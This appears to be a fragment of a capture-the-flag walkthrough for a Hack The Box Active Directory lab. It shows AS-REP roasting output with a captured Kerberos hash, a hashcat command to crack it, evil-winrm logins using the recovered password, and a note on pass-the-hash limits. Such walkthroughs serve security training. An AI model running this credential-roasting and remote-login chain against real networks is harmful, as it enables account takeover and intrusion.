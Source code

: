 [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)  
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set  
$krb5asrep$23$svc-alfresco@HTB.LOCAL:c6c6dde3654e2c08b5c512700389a9aa$fba1e1f92aefcf3059d46a0f96f617ff395dddd6b1d206e34bcc1423b99062918373aa71cf73a639d32c1003dadc14e7957137d3a25625523a9705feda0692106d4925db28ae070f36f30e2d0285dbca43ad570694d019cf3daaf010ab7c8272e02246ef160efaada7b39d6b3ccb1f407c1db82d9df2719305f3e89d837b258c69f20fdc8712d22b35ad0f248aa89eb61bf98fd7934bbfeb661bcde3d0e2f1334d08942d1e0e64d12cc6c2df9c998740f1e1ee6ab70bdb50a0e68784257ef94b02dd87204dad8cc42e92e5f3729c2ddef9b9ad3f47a04056b7f6e840c0a7b42bd80e8441460e  
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

  

```PowerShell
 hashcat -m 18200 asrep_hashes.txt  /Users/share/wordlists/rockyou.txt
```

```PowerShell
 evil-winrm -u svc-alfresco  -p s3rvice -i 10.10.10.161
```

```PowerShell
 evil-winrm -u svc-alfresco  -p s3rvice -i 10.10.10.161
```

**Evil-WinRM** does support **Pass-the-Hash (PtH)** via the `**-H**` flag, allowing you to authenticate directly with an **NTLM hash** (not the AS-REP hash). However, the hash you have (`**$krb5asrep$23$...**`) is a **Kerberos AS-REP hash**, which Evil-WinRM _cannot_ use directly.
